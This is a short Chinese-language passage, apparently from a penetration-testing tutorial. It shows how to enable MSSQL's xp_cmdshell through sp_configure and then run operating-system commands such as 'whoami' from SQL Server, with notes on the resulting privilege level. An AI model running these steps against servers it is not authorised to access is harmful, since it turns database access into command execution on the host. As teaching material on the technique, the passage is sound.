 这里没有开启xp_cmdshell，所以没有执行成功。

通过sp_configure开启xp_cmdshell（1就是开启，0是关闭）

```sql
启用：
EXEC sp_configure 'show advanced options',1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell',1;
RECONFIGURE;
 
关闭；
exec sp_configure 'show advanced options',1 ；
reconfigure;
exec sp_configure 'xp_cmdshell',0;
reconfigure;
```

![开启cmdshell](./MsSQL/开启cmdshell.png)

接下来，就可以执行任意命令了。

```sql
EXEC master.dbo.xp_cmdshell 'whoami';
```

但是这个不是system权限，经过测试法线这个权限是不允许创建用户的。

![cmd_shell执行成功](./MsSQL/cmd_shell执行成功.png)

